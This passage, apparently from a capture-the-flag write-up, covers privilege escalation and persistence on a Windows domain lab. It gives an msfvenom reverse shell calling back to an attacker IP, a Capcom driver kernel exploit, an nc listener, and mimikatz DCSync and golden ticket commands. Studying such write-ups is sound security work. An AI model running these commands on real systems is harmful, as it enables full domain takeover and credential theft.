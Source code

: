 -   **I generate a simple reverse shell using** `msfvenom`:
    -   `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.58 LPORT=443 -f exe -o shell.exe`
    -   {{< figure src="/ox-hugo/2024-10-18-143546_.png" >}}


### Run the exploit chain on the victim: {#run-the-exploit-chain-on-the-victim}

1.  **I use** `evil-winrm` **to transfer all the files to the target**:
    -   `upload [filename]`
    -   {{< figure src="/ox-hugo/2024-10-18-130359_.png" >}}

2.  **Load the driver Run Exploit**:
    -   `.\EopLoadDriver.exe System\CurrentControlSet\Capcom C:\Users\svc-print\Documents\Capcom.sys`
    -   {{< figure src="/ox-hugo/2024-10-18-130552_.png" >}}
    -   All 0's is good as a response, means we are working.

3.  **Setup Listener**:
    -   `rlwrap -cAr nc -lnvp 443`

4.  **Trigger exploit**:
    -   `.\ExploitCapcom.exe`
    -   {{< figure src="/ox-hugo/2024-10-18-143703_.png" >}}

5.  **Catch the reverse shell**:
    -   {{< figure src="/ox-hugo/2024-10-18-143802_.png" >}}

6.  **Get our root flag**:
    -   {{< figure src="/ox-hugo/2024-10-18-144054_.png" >}}


## 5. Persistence: {#5-dot-persistence}


### Creating a Golden Ticket with `mimikatz`: {#creating-a-golden-ticket-with-mimikatz}

-   **I transfer** `mimikatz.exe` **over using my existing** `evil-winrm` **session**:
    -   {{< figure src="/ox-hugo/2024-10-18-145858_.png" >}}

-   **I perform a** `DCsync` **attack to retrieve the** `krbtgt NTLM hash`:
    -   `lsadump::dcsync /user:krbtgt /domain:fabricorp.local`
    -   {{< figure src="/ox-hugo/2024-10-18-145454_.png" >}}
    -   I also retrieve the domain `SID`

-   **I create my golden ticket using** `mimikatz` **&amp; the** `krbtgt` **hash to make myself a 10 year ticket**:
    -   `kerberos::golden /domain:fabricorp.local /user:Administrator /sid:S-1-5-21-2633719317-1471316042-3957863514 /rc4:8ee7[REDACTED]87b0`
    -   {{< figure src="/ox-hugo/2024-10-18-150330_.png" >}}

-   **I transfer the ticket back myself using** `evil-winrm`:
    -   {{< figure src="/ox-hugo/2024-10-18-145847_.png" >}}

-   **I convert the ticket so I can use it locally on linux**:
    -   `impacket-ticketConverter ticket.kirbi admin.ccache`
    -   {{< figure src="/ox-hugo/2024-10-18-145921_.png" >}}
